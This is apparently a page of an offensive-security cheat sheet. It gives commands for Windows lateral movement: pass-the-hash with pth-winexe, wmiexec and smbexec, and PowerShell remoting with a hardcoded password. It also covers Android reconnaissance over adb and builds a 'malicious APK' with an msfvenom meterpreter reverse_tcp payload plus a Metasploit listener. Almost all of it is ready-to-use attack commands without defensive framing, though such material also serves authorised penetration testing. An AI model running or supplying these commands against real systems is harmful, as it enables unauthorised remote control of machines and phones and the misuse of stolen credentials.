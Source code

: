 ### Windows Lateral Movement
```bash
# Pass the Hash
pth-winexe -U DOMAIN/Administrator%aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 //192.168.1.11 cmd.exe

# Using WMI for execution
wmiexec.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 administrator@192.168.1.11

# SMB Execution
smbexec.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 administrator@192.168.1.11

# PowerShell Remoting
$username = "domain\user"
$password = ConvertTo-SecureString "Password123" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
Enter-PSSession -ComputerName 192.168.1.11 -Credential $cred
```

## Android Target Exploitation

### Android Reconnaissance
```bash
# Install Android tools
apt install -y adb fastboot apktool dex2jar

# Connect to device (requires USB debugging enabled)
adb devices

# Get device information
adb shell getprop

# List installed packages
adb shell pm list packages

# Dump package information
adb shell dumpsys package [package.name]
```

### Creating Android Payloads
```bash
# Generate a malicious APK
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o malicious.apk

# Set up listener
msfconsole
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```
